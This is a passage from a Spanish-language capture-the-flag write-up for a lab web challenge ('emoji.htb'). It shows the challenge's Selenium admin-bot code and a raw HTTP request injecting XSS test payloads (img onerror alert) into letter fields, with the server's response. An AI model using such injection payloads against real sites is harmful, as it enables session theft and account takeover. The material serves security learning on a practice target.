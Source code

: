     client.set_page_load_timeout(5)
    client.set_script_timeout(5)

    client.get('http://localhost/login')

    username = client.find_element(By.ID, 'username')
    password = client.find_element(By.ID, 'password')
    login = client.find_element(By.ID, 'login-btn')

    username.send_keys(current_app.config['ADMIN_USERNAME'])
    password.send_keys(current_app.config['ADMIN_PASSWORD'])
    login.click()
    time.sleep(3)
    try:
        client.get('http://localhost/letter?uid=' + uid)
        time.sleep(3)
    except:
        pass
    client.quit()

{% endhighlight %}

Uh listo, el falso admin que se loguea en la aplicación y mira la cartita.

{% highlight python %}
client.get('http://localhost/letter?uid=' + uid)
{% endhighlight %}

Esto me suena a Client-Side Attack de acá a la China Suárez.

Vamos a ver si se come un XSS la app.

_HTTP Request_:
{% highlight text %}
POST /api/create HTTP/1.1
Host: emoji.htb:1337
Content-Length: 134
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://emoji.htb:1337
Referer: http://emoji.htb:1337/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es-AR;q=0.8,es;q=0.7
Cookie: session=6e58f080-ab17-4291-b29b-cb3e4d3f2f54
Connection: close

{"userLetter":"<img src='foo' onerror='alert(/💛/)'>", "userEmoji":"<img src='bar' onerror='alert(/💛/)'>"}
{% endhighlight %}

_HTTP Response_:
{% highlight text %}
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 29 Sep 2022 08:15:19 GMT
Content-Type: application/json
Content-Length: 87
Connection: close
Set-Cookie: session=6e58f080-ab17-4291-b29b-cb3e4d3f2f54; Expires=Sun, 30 Oct 2022 08:15:19 GMT; HttpOnly; Path=/

{"message":"Letter created successfully","uid":"b779c5bf-b3c6-432c-95e4-89362e1d3bda"}
{% endhighlight %}
